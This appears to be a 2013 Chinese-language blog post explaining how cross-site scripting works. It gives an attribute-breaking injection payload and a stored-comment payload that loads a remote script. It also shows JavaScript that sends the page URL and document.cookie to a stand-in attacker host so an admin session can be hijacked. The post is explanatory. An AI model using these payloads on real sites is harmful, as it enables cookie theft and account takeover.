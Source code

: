 ```yaml
---
author: levin
comments: true
date: 2013-08-29 22:10:09+08:00
layout: post
title: "跨站脚本攻击实现原理"
categories:
- web
tags:
- javascript
---
```




跨站脚本攻击`Cross-site scripting`是个比较老的漏洞攻击方法，今天对其了解了下。

它是如何实现的呢，假设有个表单需要提交，其中某个字段形如<!-- more -->

        <input type="text" name="t" value="" />

攻击者在此输入框填写了

        " /><script>alert('xss')</script><input value="

这样的内容提交到服务器，而服务器没有进行过滤处理，将其存入数据库，下次编辑此表单时服务器对此内容输出，raw的html看起来像这样：

        <input type="text" name="t" value="" /><script>alert('xss')</script><input value="" />

然后页面上就会多出1个输入框，并且会弹出确认框。这就是最简单的跨站脚本植入。

假设有个提交评论的输入框，在其上提交评论：

        <script src="http://example.com/xss.js"></script>

提交表单，如果这段代码没有被过滤，当后台管理员查看评论时，照常运行的话，此段代码将开始工作，首先会请求`http://example.com/xss.js`，如果此时`http://example.com/xss.js`返回的内容为：

{% highlight javascript %}
    (function(){
        (new Image()).src = 'http://exmaple.com/xss_recv?location=' + encodeURIComponent(window.location.href) + '&cookie=' + document.cookie + '&title=' + encodeURIComponent(document.title)
    })()
{% endhighlight %}

那么浏览器将请求`http://exmaple.com/xss_recv`这个链接并附带上被脚本植入页面的一些信息，攻击者获取到这些信息，会尝试登陆那个管理后台，伪造cookie进行访问。

当然，除了窃取信息，也可以在访问量大的页面植入脚本，让脚本指向某个小型网站，可以达到DDoS的效果，使小网站宕机。


